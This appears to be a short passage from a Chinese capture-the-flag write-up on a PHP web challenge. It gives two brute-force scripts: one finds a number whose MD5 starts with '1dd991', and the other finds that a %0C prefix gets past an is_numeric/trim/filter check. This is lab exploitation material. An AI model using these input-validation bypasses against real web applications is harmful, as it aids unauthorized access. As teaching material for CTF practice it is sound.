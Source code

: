 md5绕过写个脚本生成：

```php
<?php
$i=1;

while(1){
	if("1dd991" === substr(md5($i),0,6)){
		echo $i;
		exit();
	}
	$i++;
}
?>
//得到  23751074
```

然后要绕过：

```php
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}

isset($_POST['y']) && is_numeric($_POST['y']) and $_POST['y']!=='36' and trim($_POST['y'])!=='36' and filter($_POST['y'])=='36'
```

同样编写脚本：

```php
<?php
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}

for($i=0;$i<128;$i++){
	$y = chr($i).'36';
	if(is_numeric($y) and $y!=='36' and trim($y)!=='36' and filter($y)=='36') {
			echo urlencode(chr($i)).'  ';
	}
}
?>
//得到 %0C不会被trim()过滤掉
```
